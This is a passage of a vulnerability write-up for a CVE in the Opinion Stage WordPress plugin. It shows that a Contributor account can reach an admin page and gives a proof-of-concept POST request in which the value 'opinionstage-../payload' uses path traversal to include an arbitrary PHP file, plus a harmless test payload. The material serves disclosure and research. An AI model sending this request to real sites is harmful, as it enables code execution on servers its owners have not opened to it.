 To access the **admin submenu**, the user must be logged into WordPress with at least **Contributor** privileges → therefore, the required privilege for this CVE is **Contributor**.

Two slugs are declared for the submenus:

```php
const string OPINIONSTAGE_MENU_SLUG = "opinionstage-settings"
const string OPINIONSTAGE_GETTING_STARTED_SLUG = "opinionstage-getting-started"
```

## Exploit

### Proof of Concept (PoC)

1. Login with a Contributor account
2. Send a POST request:

```http
POST /wp-admin/admin.php?page=opinionstage-getting-started HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C95a2ae30f463a8c1d010a70313f3f305e2c6e99b18056b7827132b809329c400; wp-settings-time-3=1760279584; intercom-id-y45xtsgw=f5cf9200-6f02-4b61-bb0a-94ef864e710e; intercom-session-y45xtsgw=; intercom-device-id-y45xtsgw=40def9f9-8e76-4d64-9bbc-28c12b70544f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C2f86a0974e1c1d7b5ef8322a588e50ef5879561d1fc2f84b7c6eddf5c98ffcce
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-PwnFox-Color: green
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

page=opinionstage-../payload
```

**Debugging**:

{{< figure src="debug1.png" caption="Debug - Value of $view_file_name" >}}

{{< figure src="debug2.png" caption="Debug - Value of the $path being required" >}}

A `payload.php` file was created for testing:

```php {filename="admin/views/payload.php v19.11.0" hl_lines=[2]}
<?php
echo "ABC";
```
